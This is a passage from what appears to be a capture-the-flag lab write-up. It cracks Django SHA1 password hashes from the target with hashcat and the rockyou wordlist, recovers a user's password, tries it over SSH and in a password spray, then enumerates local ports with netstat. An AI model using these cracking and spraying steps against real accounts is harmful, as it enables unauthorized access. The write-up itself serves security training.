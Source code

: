 Let's save all these hashes in a file called "hashes".

```bash
$ cat hash
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
```

Because the backend was Django-based, we will use hashcat with the Django (SHA1) mode.

![Pasted image 20240219215306](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/52d2d426-45c5-42dc-bc25-1f3fdd3a15ec)

Hashcat cracked the hash of user Tom in a very short time, and the password is **john316**.

```bash
$ hashcat -m 124 hash rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921508
* Keyspace..: 14344385

sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
```

Let's try to gain shell as the Tom user using SSH, but it didn't accept that password. I also performed a password spray attack to check if any other user have the same password, but that also didn't work here. Interesting!

![Pasted image 20240219220006](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/dbf23e6b-da7b-4c46-8acb-d89b74868bd8)

### Port Forwarding from martin user
  
When Tom's password didn't work and all the other backup files were encrypted, I moved back to Martin's shell and started enumerating it. Using netstat, I discovered that something is running on port 3000.

```bash
$ netstat -ant
Active Internet connections (servers and established)
| Proto | Recv-Q | Send-Q | Local Address     | Foreign Address  | State       |
|-------|--------|--------|-------------------|------------------|-------------|
| tcp   | 0      | 0      | 127.0.0.1:33060   | 0.0.0.0:*        | LISTEN      |
| tcp   | 0      | 0      | 127.0.0.1:3306    | 0.0.0.0:*        | LISTEN      |
| tcp   | 0      | 0      | 0.0.0.0:80        | 0.0.0.0:*        | LISTEN      |
| tcp   | 0      | 0      | 127.0.0.53:53     | 0.0.0.0:*        | LISTEN      |
| tcp   | 0      | 0      | 0.0.0.0:22        | 0.0.0.0:*        | LISTEN      |
| tcp   | 0      | 1      | 10.10.11.235:51686| 8.8.4.4:53       | SYN_SENT    |
| tcp   | 0      | 208    | 10.10.11.235:22   | 10.10.16.7:36814 | ESTABLISHED |
| tcp6  | 0      | 0      | :::80             | :::*             | LISTEN      |
| tcp6  | 0      | 0      | :::22             | :::*             | LISTEN      |
| tcp6  | 0      | 0      | :::3000           | :::*             | LISTEN      |
```

